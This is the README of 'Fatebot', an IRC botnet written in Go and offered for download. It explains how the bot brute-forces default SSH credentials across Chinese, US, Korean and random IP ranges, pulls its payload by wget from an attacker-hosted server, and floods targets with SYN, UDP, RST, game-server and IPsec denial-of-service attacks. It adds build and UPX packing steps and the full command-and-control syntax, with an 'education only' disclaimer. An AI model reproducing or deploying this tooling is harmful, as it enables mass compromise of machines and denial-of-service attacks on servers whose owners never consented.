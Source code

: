 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect Feature
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string {
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# since v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# Attack Feature
Attack feature will play around with <strong>volumetric</strong> mostly, but also have an <strong>application</strong> too.
All of the attack vectors will be <strong>random source port automatically, min and max of attack size will be 10 - 1450bytes.</strong>


<img src="assets/synflood.png" alt="synflood, dos example">

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	ATTACK VECTORS:
	
		?udp <srcIP> <dstIP> <port> <size>		Just a normal UDP Flood attack.
		?syn <srcIP> <dstIP> <port> <size>		Just a normal SYN Flood attack.	
		?ack <srcIP> <dstIP> <port> <size>		Just a normal ACK Flood attack.
		?fin <srcIP> <dstIP> <port> <size>		Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst <srcIP> <dstIP> <port> <size>		Flood TCP RST packets to broke a TCP connection between client and target server.
		?sap <srcIP> <dstIP> <port> <size>		Flood by using TCP SYN+ACK Flags to the target server.
		?xmas <srcIP> <dstIP> <port> <size>		Flood TCP packets by using all of TCP Flags to target server.
		?vse <srcIP> <dstIP>				Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms <srcIP> <dstIP>				Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec <srcIP> <dstIP>				Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	SCANNER:
	
		?scan <modes> <server>                  Scan SSH port on the network, Brute-Force attack to the target and install the payload by "wget".
	
			-cn		Scan on china network.
			-usa		Scan on the united state of america network.
			-kr		Scan on south korea network.
			-r		Scan with random ip.	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
